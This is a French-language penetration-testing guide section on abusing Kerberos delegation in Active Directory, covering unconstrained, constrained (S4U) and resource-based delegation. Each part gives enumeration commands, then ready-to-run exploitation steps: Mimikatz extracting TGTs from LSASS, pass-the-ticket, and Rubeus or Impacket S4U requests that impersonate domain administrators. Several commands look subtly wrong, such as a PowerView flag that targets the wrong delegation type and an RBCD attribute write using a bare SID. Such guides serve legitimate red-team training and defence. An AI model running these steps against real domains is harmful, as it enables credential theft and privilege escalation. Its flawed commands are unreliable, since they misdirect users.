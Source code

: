 # V.C. Abus des Délégations Kerberos

La délégation Kerberos permet à un service d'agir au nom d'un utilisateur pour accéder à d'autres services sur le réseau. Des configurations de délégation incorrectes ou compromises peuvent être abusées pour élever des privilèges ou se déplacer latéralement.

Il existe principalement trois types de délégation :
1.  **Délégation Non Contrainte (Unconstrained Delegation)**
2.  **Délégation Contrainte (Constrained Delegation - S4U2Self & S4U2Proxy)**
3.  **Délégation Contrainte Basée sur les Ressources (Resource-Based Constrained Delegation - RBCD)**

## 1. Délégation Non Contrainte (Unconstrained Delegation)

*   **Principe :** Un compte (utilisateur ou ordinateur) configuré pour la délégation non contrainte peut obtenir une copie du Ticket Granting Ticket (TGT) d'un utilisateur qui s'authentifie auprès de lui. L'attaquant peut ensuite utiliser ce TGT pour s'authentifier en tant que cet utilisateur auprès d'autres services.
*   **Identification :**
    *   Rechercher l'attribut `userAccountControl` contenant le flag `TRUSTED_FOR_DELEGATION` (524288 ou 0x80000).
    *   **PowerView :**
        ```powershell
        Get-DomainUser -TrustedToAuth | Select-Object samaccountname, userprincipalname, serviceprincipalname, description
        Get-DomainComputer -TrustedToAuth | Select-Object samaccountname, dnshostname, serviceprincipalname, description
        ```
    *   **Module ActiveDirectory :**
        ```powershell
        Get-ADObject -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)" -Properties samaccountname, serviceprincipalname, dnshostname, userprincipalname | Select-Object Name, ObjectClass, DistinguishedName, samaccountname, serviceprincipalname, dnshostname, userprincipalname
        ```
    *   **BloodHound :** Requête "Find computers with unconstrained delegation".
*   **Exploitation :**
    1.  Compromettre le compte/la machine configurée pour la délégation non contrainte (ex: via RDP, WinRM, exploit).
    2.  Attendre qu'un utilisateur privilégié (ex: Administrateur de Domaine) s'authentifie sur cette machine.
    3.  Extraire le TGT de l'utilisateur privilégié de la mémoire LSASS.
        *   **Mimikatz :**
            ```
            privilege::debug
            sekurlsa::tickets /export
            # Rechercher le TGT de l'utilisateur cible.
            ```
    4.  Utiliser le TGT volé (Pass-the-Ticket) pour accéder à d'autres services en tant que l'utilisateur privilégié.
        *   **Mimikatz :**
            ```
            kerberos::ptt <chemin_vers_le_fichier_ticket.kirbi>
            ```
        *   **Rubeus :**
            ```powershell
            Rubeus.exe ptt /ticket:<BASE64_DU_TICKET_KIRBI>
            ```
*   **Risques :** Très dangereux. Si un DC est configuré pour la délégation non contrainte (mauvaise pratique), compromettre un service sur ce DC peut mener à la compromission de TGTs d'admins.

## 2. Délégation Contrainte (Constrained Delegation - S4U)

*   **Principe :**
    *   **S4U2Self (Service for User to Self) :** Un service peut obtenir un ticket de service pour lui-même au nom d'un utilisateur, même si cet utilisateur ne s'est pas authentifié directement auprès du service via Kerberos.
    *   **S4U2Proxy (Service for User to Proxy) :** Après S4U2Self, le service peut utiliser le ticket obtenu pour demander un autre ticket de service à un service backend (spécifié dans la configuration de délégation) au nom de l'utilisateur.
*   **Identification :**
    *   Rechercher les comptes avec l'attribut `msDS-AllowedToDelegateTo` configuré.
    *   **PowerView :**
        ```powershell
        Get-DomainUser -TrustedToDelegate | Select-Object samaccountname, userprincipalname, msdsallowedtodelegateto, description
        Get-DomainComputer -TrustedToDelegate | Select-Object samaccountname, dnshostname, msdsallowedtodelegateto, description
        ```
    *   **Module ActiveDirectory :**
        ```powershell
        Get-ADObject -Filter {'msDS-AllowedToDelegateTo' -like "*"} -Properties samaccountname, msDS-AllowedToDelegateTo, serviceprincipalname, dnshostname, userprincipalname | Select-Object Name, ObjectClass, DistinguishedName, samaccountname, msDSAllowedToDelegateTo, serviceprincipalname, dnshostname, userprincipalname
        ```
    *   **BloodHound :** Requêtes pour les chemins de délégation contrainte.
*   **Exploitation (si le compte de service est compromis) :**
    1.  L'attaquant a compromis un compte (A) configuré pour déléguer à un service spécifique (ex: `CIFS/SERVEUR_CIBLE`).
    2.  L'attaquant peut utiliser les extensions S4U pour obtenir un ticket de service pour `CIFS/SERVEUR_CIBLE` au nom de n'importe quel utilisateur (qu'il peut spécifier, souvent un admin).
    *   **Rubeus :**
        ```powershell
        # Compte A (attaquant) : service_compte
        # Utilisateur à impersonner : admin_cible
        # Service cible : CIFS/serveur_cible.domaine.local
        Rubeus.exe s4u /user:service_compte /password:MotDePasseService /impersonateuser:admin_cible /msdsspn:CIFS/serveur_cible.domaine.local /altservice:krbtgt /ptt
        # Ou si vous avez le hash NTLM du compte de service
        Rubeus.exe s4u /user:service_compte /rc4:HASH_NTLM_SERVICE /impersonateuser:admin_cible /msdsspn:CIFS/serveur_cible.domaine.local /altservice:krbtgt /ptt
        ```
        L'option `/altservice:krbtgt` (ou un autre service sur le DC comme `LDAP/DC.domaine.local`) est souvent utilisée pour obtenir un TGT pour l'utilisateur impersonné si la délégation est vers un service sur un DC.
    *   **Impacket `getST.py` (avec `ticketer.py`) :**
        ```bash
        # 1. Obtenir un TGT pour le compte de service (si nécessaire)
        # getTGT.py DOMAINE/service_compte:MotDePasseService
        # export KRB5CCNAME=/tmp/service_compte.ccache
        # 2. Demander un ticket S4U
        # getST.py -spn CIFS/serveur_cible.domaine.local -impersonate admin_cible DOMAINE/service_compte
        # (Peut nécessiter des ajustements pour l'utilisation du ticket)
        ```
*   **Transition de protocole :** Si la délégation contrainte est configurée avec "Utiliser n'importe quel protocole d'authentification" (transition de protocole), un attaquant qui compromet le service peut impersonner des utilisateurs s'authentifiant avec NTLM.

## 3. Délégation Contrainte Basée sur les Ressources (RBCD)

*   **Principe :** Inverse de la délégation contrainte. Ici, le propriétaire d'une ressource (ex: un serveur) configure quels comptes de service sont autorisés à déléguer vers sa ressource. L'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` sur l'objet ordinateur de la ressource est configuré avec le SID du compte de service autorisé.
*   **Identification :**
    *   Rechercher les objets ordinateurs avec l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` configuré.
    *   **PowerView :**
        ```powershell
        Get-DomainComputer -LDAPFilter "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" | Select-Object samaccountname, dnshostname, msdsallowedtoactonbehalfofotheridentity
        ```
    *   **Module ActiveDirectory :**
        ```powershell
        Get-ADComputer -Filter {'msDS-AllowedToActOnBehalfOfOtherIdentity' -like "*"} -Properties msDSAllowedToActOnBehalfOfOtherIdentity | Select-Object Name, DistinguishedName, msDSAllowedToActOnBehalfOfOtherIdentity
        ```
*   **Exploitation (si l'attaquant a des droits d'écriture sur l'objet ordinateur cible ou contrôle un compte déjà listé dans `msDS-AllowedToActOnBehalfOfOtherIdentity`) :**
    1.  **Scénario 1 : L'attaquant a `WriteProperty` ou `GenericWrite`/`GenericAll` sur l'ordinateur cible (OrdinateurB).**
        *   L'attaquant crée un nouveau compte machine (OrdinateurA) ou utilise un compte machine qu'il contrôle.
        *   L'attaquant modifie l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` de OrdinateurB pour y ajouter le SID de OrdinateurA.
            ```powershell
            # Avec PowerView
            # $computerB = Get-DomainComputer OrdinateurB
            # $computerA_SID = (Get-DomainComputer OrdinateurA).ObjectSid.Value
            # Set-ADObject $computerB -Add @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$computerA_SID} # Nécessite des droits
            # Ou plus directement avec des outils comme activedirectory.py d'Impacket ou des scripts PowerShell dédiés.
            # Rubeus peut aussi aider à configurer cela si on a les droits.
            ```
    2.  **Scénario 2 : L'attaquant contrôle déjà un compte (CompteSvc) listé dans `msDS-AllowedToActOnBehalfOfOtherIdentity` de l'OrdinateurB.**
    3.  **Exploitation (commune aux deux scénarios) :**
        *   L'attaquant (contrôlant OrdinateurA ou CompteSvc) utilise S4U2Self pour obtenir un ticket de service pour lui-même (OrdinateurA/CompteSvc) au nom d'un utilisateur qu'il veut impersonner (ex: Administrateur de Domaine) sur OrdinateurB.
        *   Puis, il utilise S4U2Proxy pour demander un ticket de service pour un service sur OrdinateurB (ex: `CIFS/OrdinateurB.domaine.local`) au nom de l'utilisateur impersonné.
        *   **Rubeus :**
            ```powershell
            # Attaquant contrôle OrdinateurA (ou son mot de passe/hash)
            # Veut accéder à CIFS/OrdinateurB.domaine.local en tant que 'admin_cible'
            Rubeus.exe s4u /user:OrdinateurA$ /password:MotDePasseMachineA /impersonateuser:admin_cible /msdsspn:CIFS/OrdinateurB.domaine.local /altservice:CIFS /ptt
            # Ou avec le hash NTLM de OrdinateurA$
            Rubeus.exe s4u /user:OrdinateurA$ /rc4:HASH_NTLM_MACHINE_A /impersonateuser:admin_cible /msdsspn:CIFS/OrdinateurB.domaine.local /altservice:CIFS /ptt
            ```
        *   Une fois le ticket injecté (`/ptt`), l'attaquant peut accéder au service sur OrdinateurB en tant que `admin_cible`.

## Outils Clés
*   **Rubeus :** Essentiel pour l'exploitation des délégations.
*   **Mimikatz :** Pour extraire les TGTs (délégation non contrainte) et injecter des tickets.
*   **PowerView / Module ActiveDirectory :** Pour l'énumération.
*   **BloodHound :** Pour visualiser les chemins de délégation.
*   **Impacket (getST.py, ticketer.py) :** Utile depuis Linux.

L'abus de délégation est une technique puissante mais complexe, nécessitant une bonne compréhension de Kerberos. 